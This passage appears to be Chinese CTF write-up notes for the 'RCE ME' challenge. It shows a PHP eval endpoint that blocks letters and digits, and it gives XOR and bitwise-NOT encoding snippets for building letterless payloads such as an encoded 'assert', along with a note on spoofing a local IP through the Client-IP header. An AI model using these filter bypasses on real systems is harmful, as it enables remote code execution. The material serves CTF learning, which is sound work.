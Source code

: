 同时要求ip为127，添加XFF不管用，添加 `Client-IP`

---
# ***[极客大挑战 2019]RCE ME
- 无参数RCE
- bypass_disable

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
    $code=$_GET['code'];
        if(strlen($code)>40){
            die("This is too Long.");
        }
        if(preg_match("/[A-Za-z0-9]+/",$code)){
            die("NO.");
        }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}
?>  
```

无参数rce

[记一次拿webshell踩过的坑(如何用PHP编写一个不包含数字和字母的后门)](https://www.cnblogs.com/ECJTUACM-873284962/p/9433641.html)

[ctf中 preg_match 绕过技术 | 无字母数字的webshell ](https://www.cnblogs.com/v01cano/p/11736722.html)

[浅谈PHP代码执行中出现过滤限制的绕过执行方法_](https://blog.csdn.net/mochu7777777/article/details/104631142)

## 异或
显示字符与字符异或的结果

```
str = r"~!@#$%^&*()_+<>?,.;:-[]{}\/"

for i in range(0, len(str)):
    for j in range(0, len(str)):
        a = ord(str[i])^ord(str[j])
        print(str[i] + ' ^ ' + str[j] + ' is ' + chr(a))
```

## 取反

```php
<?php
$b='assert';
echo urlencode(~$b);
$a='(phpinfo())';
echo urlencode(~$a);
?>
```
